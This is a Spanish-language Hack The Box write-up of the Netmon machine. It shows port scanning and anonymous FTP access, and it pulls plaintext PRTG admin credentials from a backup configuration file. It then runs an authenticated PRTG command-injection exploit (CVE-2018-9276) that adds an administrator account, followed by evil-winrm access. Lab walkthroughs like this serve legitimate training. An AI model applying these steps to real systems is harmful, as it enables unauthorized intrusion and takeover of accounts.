

## Información Básica

### Técnicas vistas

- FTP Enumeration
- Information Leakage
- Abusing PRTG Network Monitor - Command Injection [RCE]

### Preparación

- eJPT
- eWPT
- OSCP

***

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash wrap=false
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.152 -oG nmap/allPorts 
```

| Parámetro           | Descripción                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| `-p-`               | Escanea **todos los puertos** (1-65535).                                                     |
| `--open`            | Muestra **solo puertos abiertos**.                                                           |
| `-sS`               | Escaneo **SYN** (rápido y sigiloso).                                                         |
| `--min-rate 5000`   | Envía al menos **5000 paquetes por segundo** para acelerar el escaneo.                       |
| `-vvv`              | Máxima **verbosidad**, muestra más detalles en tiempo real.                                  |
| `-n`                | Evita resolución DNS.                                                                        |
| `-Pn`               | Asume que el host está activo, **sin hacer ping** previo.                                    |
| `10.10.10.152`       | Dirección IP objetivo.                                                                       |
| `-oG nmap/allPorts` | Guarda la salida en formato **grepable** para procesar con herramientas como `grep` o `awk`. |

```txt wrap=false
PORT      STATE SERVICE      REASON
21/tcp    open  ftp          syn-ack ttl 127
80/tcp    open  http         syn-ack ttl 127
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
5985/tcp  open  wsman        syn-ack ttl 127
47001/tcp open  winrm        syn-ack ttl 127
49664/tcp open  unknown      syn-ack ttl 127
49665/tcp open  unknown      syn-ack ttl 127
49666/tcp open  unknown      syn-ack ttl 127
49667/tcp open  unknown      syn-ack ttl 127
49668/tcp open  unknown      syn-ack ttl 127
49669/tcp open  unknown      syn-ack ttl 127
```

Ahora con la función **extractPorts**, extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash title="Función de S4vitar"
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')" 
	ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)" 
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat --paging=never extractPorts.tmp
	rm extractPorts.tmp
}
```

```bash wrap=false
nmap -sVC -p21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 10.10.10.152 -oN nmap/targeted
```

| Parámetro           | Descripción                                                                          |
| ------------------- | ------------------------------------------------------------------------------------ |
| `-sV`               | Detecta la **versión** de los servicios que están corriendo en los puertos abiertos. |
| `-C`                | Ejecuta **scripts NSE de detección de versiones y configuración**.                   |
| `-p`                | Escanea únicamente los puertos seleccionados.                                        |
| `10.10.10.152`       | Dirección IP objetivo.                                                               |
| `-oN nmap/targeted` | Guarda la salida en **formato normal** en el archivo indicado.                       |

```txt wrap=false
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-09-19T21:23:34
|_  start_date: 2025-09-19T21:02:39
```

### Whatweb

```bash wrap=false
❯ whatweb http://10.10.10.152
http://10.10.10.152 [302 Found] Country[RESERVED][ZZ], HTTPServer[PRTG/18.1.37.13946], IP[10.10.10.152], PRTG-Network-Monitor[18.1.37.13946,PRTG], RedirectLocation[/index.htm], UncommonHeaders[x-content-type-options], X-XSS-Protection[1; mode=block]
ERROR Opening: http://10.10.10.152/index.htm - incorrect header check
```

### PRTG Network Monitor


Vemos que este servicio está corriendo en la versión: `PRTG Network Monitor 18.1.37.13946`.

### Searchsploit

```bash wrap=false
❯ searchsploit PRTG Network Monitor
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution                                                                                  | windows/webapps/46527.sh
PRTG Network Monitor 20.4.63.1412 - 'maps' Stored XSS                                                                                                 | windows/webapps/49156.txt
PRTG Network Monitor < 18.1.39.1648 - Stack Overflow (Denial of Service)                                                                              | windows_x86/dos/44500.py
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Vemos un `RCE` pero necesitamos de `autenticación`.

### FTP

El puerto **21** que corresponde a **File Transfer Protocol** (`FTP`), está habilitado el lógin anónimo, vamos a ver que encontramos:

```bash wrap=false
❯ ftp anonymous@10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||58535|)
150 Opening ASCII mode data connection.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
11-10-23  10:20AM       <DIR>          Windows
226 Transfer complete.
ftp> 
```

Aquí lo ideal sería buscar el archivo de configuración de este servicio para encontrar las credenciales de este servicio. Pero después de buscar solo encontramos la user flag

```bash wrap=false
❯ cat user.txt
40d1ce8bb6b274051bf...
```

### PRTG Configuration Archive

Si usamos `ls -a` para ver archivos/directorios ocultos vemos lo siguiente:

```bash wrap=false
ftp> ls -a
229 Entering Extended Passive Mode (|||59450|)
125 Data connection already open; Transfer starting.
11-20-16  10:46PM       <DIR>          $RECYCLE.BIN
02-03-19  12:18AM                 1024 .rnd
11-20-16  09:59PM               389408 bootmgr
07-16-16  09:10AM                    1 BOOTNXT
02-03-19  08:05AM       <DIR>          Documents and Settings
02-25-19  10:15PM       <DIR>          inetpub
09-19-25  05:02PM            738197504 pagefile.sys
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
12-15-21  10:40AM       <DIR>          ProgramData
02-03-19  08:05AM       <DIR>          Recovery
02-03-19  08:04AM       <DIR>          System Volume Information
02-03-19  08:08AM       <DIR>          Users
11-10-23  10:20AM       <DIR>          Windows
226 Transfer complete.
ftp> 
```

Si nos metemos en `ProgramData`:

```bash wrap=false
ftp> cd ProgramData
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||59582|)
150 Opening ASCII mode data connection.
12-15-21  10:40AM       <DIR>          Corefig
02-03-19  12:15AM       <DIR>          Licenses
11-20-16  10:36PM       <DIR>          Microsoft
02-03-19  12:18AM       <DIR>          Paessler
02-03-19  08:05AM       <DIR>          regid.1991-06.com.microsoft
07-16-16  09:18AM       <DIR>          SoftwareDistribution
02-03-19  12:15AM       <DIR>          TEMP
11-20-16  10:19PM       <DIR>          USOPrivate
11-20-16  10:19PM       <DIR>          USOShared
02-25-19  10:56PM       <DIR>          VMware
226 Transfer complete.
ftp> cd Paessler
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||59584|)
125 Data connection already open; Transfer starting.
09-20-25  04:14AM       <DIR>          PRTG Network Monitor
226 Transfer complete.
ftp> cd PRTG\ Network\ Monitor
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||59586|)
125 Data connection already open; Transfer starting.
09-19-25  05:44PM       <DIR>          Configuration Auto-Backups
09-19-25  08:00PM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
09-20-25  12:00AM       <DIR>          Logs (Web Server)
09-19-25  08:00PM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
09-20-25  04:14AM              1719982 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
226 Transfer complete.
ftp> 
```

La clave está en el archivo `PRTG Configuration.old.bak` en donde encontraremos lo siguiente:

```xml wrap=false title="PRTG Configuration.old.bak"
<dbpassword>
  <!-- User: prtgadmin -->
  PrTg@dmin2018
</dbpassword>
```

Pero si nos intentamos loguear no nos deja. Si nos fijamos el año de la contraseña es **2018** y la máquina es de **2019**, si probamos a cambiar eso:



## Explotación
 
Si ahora usamos el **exploit** que encontramos antes nos creará un usuario con privilegios de **administrador**:

```bash wrap=false
❯ ./rce.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=e0NDNUMxMTJCLTU4NzEtNDMxRC05MTVELTQ0RjczMEI0RDMzQn0%3D; Path=/; HttpOnly"

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 
```

Vamos a comprobarlo:

```bash wrap=false
❯ crackmapexec winrm 10.10.10.152 -u 'pentest' -p 'P3nT3st!'
SMB         10.10.10.152    5985   NETMON           [*] Windows 10 / Server 2016 Build 14393 (name:NETMON) (domain:netmon)
HTTP        10.10.10.152    5985   NETMON           [*] http://10.10.10.152:5985/wsman
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.10.152    5985   NETMON           [+] netmon\pentest:P3nT3st! (Pwn3d!)
❯ evil-winrm -i 10.10.10.152 -u 'pentest' -p 'P3nT3st!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\pentest\Documents> whoami
netmon\pentest
*Evil-WinRM* PS C:\Users\pentest\Documents> cd ..
*Evil-WinRM* PS C:\Users\pentest> cd ..
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/25/2019  10:44 PM                Administrator
d-----        9/20/2025   4:48 AM                pentest
d-r---        9/20/2025   4:46 AM                Public


*Evil-WinRM* PS C:\Users> cd Administrator
*Evil-WinRM* PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         2/3/2019   7:08 AM                Contacts
d-r---         2/2/2019  11:35 PM                Desktop
d-r---         2/3/2019   7:08 AM                Documents
d-r---         2/3/2019   7:08 AM                Downloads
d-r---         2/3/2019   7:08 AM                Favorites
d-r---         2/3/2019   7:08 AM                Links
d-r---         2/3/2019   7:08 AM                Music
d-r---         2/3/2019   7:08 AM                Pictures
d-r---         2/3/2019   7:08 AM                Saved Games
d-r---         2/3/2019   7:08 AM                Searches
d-r---        2/25/2019  10:06 PM                Videos


*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        9/19/2025   5:03 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
b008c657ce1821d3b...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/177)

---